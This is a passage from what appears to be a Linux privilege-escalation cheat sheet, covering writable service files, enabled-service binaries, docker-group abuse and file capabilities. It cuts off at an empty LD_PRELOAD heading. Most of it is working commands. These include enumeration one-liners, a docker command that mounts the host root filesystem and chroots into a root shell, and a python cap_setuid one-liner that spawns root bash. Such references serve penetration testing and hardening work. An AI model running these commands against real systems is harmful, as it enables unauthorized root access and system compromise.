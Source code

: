 3. Service configuration files:
```bash
find /etc/service/ -writable 2>/dev/null
```

## Service Exploits

Exploit misconfigured services:

1. Check for running services:
```bash
ps aux
netstat -tuln
```

2. Look for services running as root with writable configuration or binary files:
```bash
find / -writable -name "*.service" 2>/dev/null
find / -writable -path "/etc/systemd/system/*" 2>/dev/null
```

3. Check for writable service binaries:
```bash
for SRV in $(systemctl list-unit-files --type=service | grep enabled | awk '{print $1}'); do
  EXEC=$(systemctl show -p ExecStart $SRV | cut -d '=' -f 2)
  ls -la $EXEC 2>/dev/null | grep -v ' root root '
done
```

## Docker Group

If the user is part of the docker group:

```bash
id
# Check if user is in docker group

# Mount root filesystem and gain root
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

## Capabilities

Check for binaries with dangerous capabilities:

```bash
getcap -r / 2>/dev/null
```

Example exploitation of capabilities:

```bash
# If python has cap_setuid capability
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## LD_PRELOAD and LD_LIBRARY_PATH
